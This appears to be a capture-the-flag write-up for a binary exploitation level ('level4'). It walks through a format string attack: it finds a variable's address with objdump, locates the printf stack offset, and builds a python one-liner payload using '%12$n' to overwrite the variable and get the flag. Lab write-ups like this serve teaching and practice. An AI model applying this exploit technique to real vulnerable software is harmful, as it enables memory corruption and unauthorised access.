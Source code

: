 ## LEVEL4

We can see that this level is similar to the previous one as it has a condition that compares an unitialized variable with the value *16930116* and a call to *printf()*. So, we'll just use the same exploit to get the flag.

First, we need to collect the following informations:
* The address of the varible
* The offset for *printf()*

We'll begin with the address of the variable.\
-> `objdump -d level4`\
We can see that before the *cmp* instruction in *n()*, the address of *0x8049810* is being copied.

Next, we'll find the offset for printf.\
-> `./level4`\
-> `AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p`\
And our offset is at the 12th position.

With all that, we can make our payload in the same format as the previous level.\
-> `python -c 'print "\x10\x98\x04\x08" + "%16930112x" + "%12$n"' > /tmp/payload4`\
We used the value of 16930112 instead of 16930116 because we already wrote 4 bytes with the address.\
And finally, we can use our payload to get the flag.\
-> `cat /tmp/payload4 | ./level4`